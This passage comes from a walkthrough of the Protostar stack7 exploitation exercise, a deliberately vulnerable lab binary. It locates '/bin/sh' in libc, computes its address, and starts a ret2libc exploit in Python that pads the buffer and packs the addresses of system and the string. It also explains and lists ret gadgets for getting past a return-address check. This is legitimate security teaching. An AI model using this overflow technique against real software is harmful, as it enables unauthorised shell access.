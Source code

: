 Now that we know where libc starts at address `0xb7e97000`. Since `/bin/sh` is a string on in libc we can find the offset from the start of the file. In order to do this we can use the `-t x` to display the the offset in hex.

```shell
user@protostar:/opt/protostar/bin$ strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh
```

We can see that the offset is at `0x11f3bf` we can find the exact offset in memory since we know the base address is `0xb7e97000`.

```python
>>> hex(0xb7e97000 + 0x11f3bf)
'0xb7fb63bf'
```

If we go back into GDB we can verify this:

```shell
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:  "/bin/sh"
```

Now we can begin to write our exploit with all this info.
```python
import struct
offset = "A"*80
system = struct.pack("I", 0xb7ecffb0);
shell = struct.pack("I", 0xb7fb63bf);
```
But wait... Remember there is a restriction on the return address that we haven’t satisfied yet. The return address of `system` starts with `0xb`. So to get around this we will have to utilize ROP (Return Oriented Programming). Which essentially we want to find _gadgets_, which is small set of instructions already present in the code to accomplish a specific goal.

When the `ret` variable is set the processor will push to the address to the top of the stack into thus changing the EIP, and will also increment ESP by 4 bytes (stack grows towards lower addresses). If the address at the top of the stack points to another ret instruction, when it is poped off and executed the step I previously explained will happen again and the execution will continue at the next address that is on the stack. So we need can avoid the the return address checking by modifying our exploit to put the address of a ret instruction as the return address, before the address of the system. We can use a random ret instruction address in our program. For this exploit I just used the first address.

```shell
user@protostar:/opt/protostar/bin# objdump -D stack7 | grep ret
 8048383:       c3                      ret    
 8048494:       c3                      ret    
 80484c2:       c3                      ret    
 8048544:       c3                      ret    
 8048553:       c3                      ret    
 8048564:       c3                      ret    
 80485c9:       c3                      ret    
 80485cd:       c3                      ret    
 80485f9:       c3                      ret    
 8048617:       c3                      ret    
```
 